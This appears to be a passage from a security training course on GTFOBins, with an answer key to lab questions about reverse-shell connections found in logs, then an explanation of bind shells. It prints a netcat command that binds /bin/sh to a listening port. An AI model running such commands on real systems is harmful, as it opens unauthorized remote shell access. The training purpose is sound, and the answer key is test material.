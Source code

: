 ### Questions

**NOTE:** The answers are in the gtfo.log or history records. You can find the answers by searching in these files. 

**Log File Location:** /root/Desktop/QuestionFiles/

1 - Which application was utilized to establish the reverse-shell connection to the IP address 172.16.8.193?

> **Answer:** nc

2 - Which application was utilized to establish the reverse-shell connection to the destination port of 5458?

> **Answer:** bash

3 - By which shell the commands that are run by the TCP/8443 reverse-shell connection made with the socat application are executed?

> **Answer:** /bin/bash

4 - Which protocol does the reverse-shell connection to the 172.16.1.33 IP address use?

> **Answer:** TCP

## Bind Shell

A bind shell is a type of shell that connects directly to the target  (compromised) system through the main system (command center) through a  port opened in this system. It is operated by an application that  listens the port on the target system through commands/packets etc. sent from the main system.

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/GTFOBins/5-img1.png)

In order to test the examples below, the following netcat command can be used to access the listening port on the target system from the host (command center).

```
# nc target.com 12345
```

### **# nc command**

The nc (netcat) application is a simple *nix application that reads  and writes data over the network using tcp or udp protocols. nc  application can be used in activities such as reverse shell or bind  shell. The -e parameter stands for exec and transmits the data coming  from the defined port such as /bin/sh or /bin/bash to the defined shell. The -l parameter is for listen and the -p parameter is for determining  the port to be taken into listen mode. In the example below, netcat  listening on the specified port forwards the incoming packets to  /bin/sh.

```
# LPORT=12345  # nc -l -p $LPORT -e /bin/sh
```

After the above commands run on the target system, access to the main system (command center) is established and shell commands can be run  directly on the target system.
